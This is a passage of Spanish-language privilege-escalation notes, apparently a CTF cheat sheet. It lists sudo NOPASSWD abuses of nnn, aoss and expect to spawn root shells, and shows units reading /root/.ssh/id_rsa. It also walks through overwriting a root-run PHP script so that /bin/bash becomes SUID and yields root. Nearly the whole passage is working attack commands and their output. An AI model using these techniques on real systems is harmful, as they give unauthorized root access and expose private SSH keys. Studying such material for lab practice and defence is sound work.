 sudo /usr/bin/units -f /root/.ssh/id_rsa

86.- 	/usr/bin/nnn

(root) NOPASSWD: /usr/bin/nnn

sudo /usr/bin/nnn

presionamos la letra e

luego 

!/bin/bash y somos root

87.-	/usr/bin/aoss

(root) NOPASSWD: /usr/bin/aoss

sudo /usr/bin/aoss /bin/sh

88.- 	/usr/bin/expect

(root) NOPASSWD: /usr/bin/expect

sudo /usr/bin/expect -c 'spawn /bin/sh;interact'


********************************************************

Parte 3.- cron jobs

cat /etc/crontab


********************************************************

Parte 4.- Listar los procesos que se ejecutan en el sistema:

comando:
ps -faux


root   1  0.0  0.0   2616  1712 ?   Ss   13:15   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done

ls -l /opt/script.php
------------------------------
-rw-r--r-- 1 chocolate chocolate 59 May  7 13:55 /opt/script.php

Podremos cambiarlo a nuestro antojo para ejecutar algo como el usuario root:

echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php

Y tras esperar un poco:

ls -l /bin/bash
----------------------------
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash


Vemos que la bash ya es SUID por lo que podemos escalar privilegios.

bash -p
whoami
----------------
root

